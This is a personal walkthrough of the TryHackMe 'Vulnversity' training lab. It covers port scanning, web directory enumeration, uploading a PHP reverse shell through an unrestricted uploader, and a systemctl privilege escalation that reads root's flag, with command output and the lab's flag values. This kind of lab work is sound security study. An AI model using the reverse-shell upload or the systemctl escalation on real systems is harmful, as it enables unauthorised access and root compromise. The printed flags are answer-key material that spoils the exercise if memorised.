






# THM - Vulnversity

Learn about active recon, web app attacks and privilege escalation.

## Date Commenced 16MAR2022


---
## IP Address

### Attempt 1
export IP=10.10.145.63


---
## Initial Enum - Open Ports

### Open Ports 
>21
>
>22
>
>139
>
>445
>
>3128
>
>3333

Using nmap for intial port enum:

> nmap $IP -vvv -oN Results/nmap01.log

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 10:21 EDT
Initiating Ping Scan at 10:21
Scanning 10.10.145.63 [2 ports]
Completed Ping Scan at 10:21, 0.22s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:21
Completed Parallel DNS resolution of 1 host. at 10:21, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 10:21
Scanning 10.10.145.63 [1000 ports]
Discovered open port 22/tcp on 10.10.145.63
Discovered open port 21/tcp on 10.10.145.63
Discovered open port 139/tcp on 10.10.145.63
Discovered open port 445/tcp on 10.10.145.63
Discovered open port 3128/tcp on 10.10.145.63
Discovered open port 3333/tcp on 10.10.145.63
Increasing send delay for 10.10.145.63 from 0 to 5 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.145.63 from 5 to 10 due to 11 out of 28 dropped probes since last increase.
Completed Connect Scan at 10:21, 25.03s elapsed (1000 total ports)
Nmap scan report for 10.10.145.63
Host is up, received conn-refused (0.23s latency).
Scanned at 2022-03-16 10:21:04 EDT for 25s
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
3128/tcp open  squid-http   syn-ack
3333/tcp open  dec-notes    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 25.30 seconds
```

Perform a more comprehesive scan on those ports:

> nmap $IP -sC -sV -A -p 21,22,139,445,3128,3333,6500,6501 -oN Results/nmap02.log

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-16 10:26 EDT
Nmap scan report for 10.10.145.63
Host is up (0.22s latency).

PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         vsftpd 3.0.3
22/tcp   open   ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open   netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open   http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open   http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.18 (Ubuntu)
6500/tcp closed boks
6501/tcp closed boks_servc
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-03-16T10:26:54-04:00
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2022-03-16T14:26:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.32 seconds
```


---
## Gobuster
What is on the web server?

> gobuster dir -u http://$IP:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ./Results/gobuster01.log

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.145.63:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/16 10:30:54 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.145.63:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.145.63:3333/css/]   
/js                   (Status: 301) [Size: 316] [--> http://10.10.145.63:3333/js/]    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.145.63:3333/fonts/] 
/internal             (Status: 301) [Size: 322] [--> http://10.10.145.63:3333/internal/]
Progress: 70817 / 220561 (32.11%)                                                      ^C
[!] Keyboard interrupt detected, terminating.

```




**Gobuster** was taking too long, so switched to **dirsearch**

> dirsearch -u http://$IP:3333 -e *

And found an *internal* folder. 



Further enum on that folder:

> dirsearch -u http://$IP:3333/internal/ -e *

gave up an *uploads* folder.




---
## BurpSuite
Lets try and fuzz the uploader: 

Hmmmm...something not working...


---
## Reverse Shell
Using *PenTestMonkey*'s **php-reverse-shell.php**, on the upload page, I get a reverse shell:

```
                                                                                                                                                                
┌──(kali㉿kali)-[~/THM/Vulnversity]
└─$ nc -lnvp 4444          
listening on [any] 4444 ...
connect to [10.9.1.154] from (UNKNOWN) [10.10.145.63] 35256
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:04:11 up 45 min,  0 users,  load average: 0.02, 0.03, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
```


---
## user.txt

```
www-data@vulnuniversity:/tmp$ find / -type f -iname user.txt 2> /dev/null
/home/bill/user.txt
www-data@vulnuniversity:/tmp$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```


---
## Enum - Poke the Bear
No Password so no **sudo**. 

Try and run *linpeas.sh*, which gives an interesting version of *snapd* to exploit



Found a potential exploit here:

> https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py

Give it a whirl...


Appears to be a no go!




---
## Systemctl
*linpeas.sh* also showed **systemctl** to possibly be vulnerable. Check out *GTFOBins* first.



Ran it as is with the *id* command and all good. Try and run to read the *root.txt* file

```
www-data@vulnuniversity:/tmp$ cd /bin
www-data@vulnuniversity:/bin$ ./systemctl link $TF
www-data@vulnuniversity:/bin$ TF=$(mktemp).service
www-data@vulnuniversity:/bin$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/bin$ ./systemctl link $TF
Created symlink from /etc/systemd/system/tmp.qFGpwCXAky.service to /tmp/tmp.qFGpwCXAky.service.
www-data@vulnuniversity:/bin$ ./systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.qFGpwCXAky.service to /tmp/tmp.qFGpwCXAky.service.
www-data@vulnuniversity:/bin$ cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
```


---
## What did I learn?

1. Better understanding of what GFTOBins is trying to do.
2. May need to explore more web directory fuzzing tools
3. More play with BurpSuite is required. I followed someone elses instructions exactly and got no result.
4. Enumerate directories under directories on web pages ie http://$IP/internal/uploads/
